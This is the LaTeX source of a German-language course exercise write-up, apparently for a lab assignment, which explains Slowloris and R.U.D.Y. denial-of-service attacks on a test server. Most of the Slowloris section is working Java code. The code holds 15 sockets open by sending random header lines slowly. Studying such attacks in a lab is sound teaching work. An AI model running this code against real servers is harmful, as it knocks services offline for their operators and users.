 \documentclass[a4paper,12pt,
headsepline,           %
twoside,               %
pointlessnumbers,      %
bibtotoc,              %
BCOR15mm               %
]{scrbook}
\begin{document}
\section*{Slowloris - Langsames Senden}
Die Aufgabe beschäftig sich damit, den Server wieder anzugreifen, so dass es zu einem Denial of Service kommt. Dies wird erziehlt
durch langsames Senden von mehreren Clients an den Server, so dass der Timeout immer genau ausgereizt wird und somit der Server blockiert wird.
Nachfolgend ist der Code zu sehen der verwendet wurde
\begin{lstlisting}
    public static void main(String[] args) throws InterruptedException, IOException {
        sockets = new ArrayList<>();

        for (int c=0; c<15; ++c) {
            openSocket();
        }

        while (true) {
            Thread.sleep(600);
            for (var socket : sockets) {
                sendLine(socket);
            }
        }
    }
    \dots

    private static void sendLine(Socket socket) throws IOException {
        var ostream = socket.getOutputStream();

        StringBuilder field = new StringBuilder();
        for (int c=0; c<8; ++c) {
            byte asciiVal = (byte) (ThreadLocalRandom.current().nextInt(46) + 'A');
            if (asciiVal > 'Z') {
                asciiVal = (byte) (asciiVal - 'A' - 26 + 'a');
            }
            field.append((char) asciiVal);
        }

        String line = "\r\nX-" + field.toString() + ": " + ThreadLocalRandom.current().nextInt(10000);
        System.out.print(line);

        ostream.write(line.getBytes());
    }
\end{lstlisting}

\section*{R.U.D.Y}
Diese Aufgabe beschäftigt sich damit, den Server durch einen R.U.D.Y. Angriff zu schwöchen. Der dafür benötigte Code ist 
identisch zu der Aufgabe 4, außer dass im Header keine GET Request angefragt wird, sondern ein Post. Dieser Angriff ist ebenfalls erfolgreich.

\section*{Fragen}
\end{document}
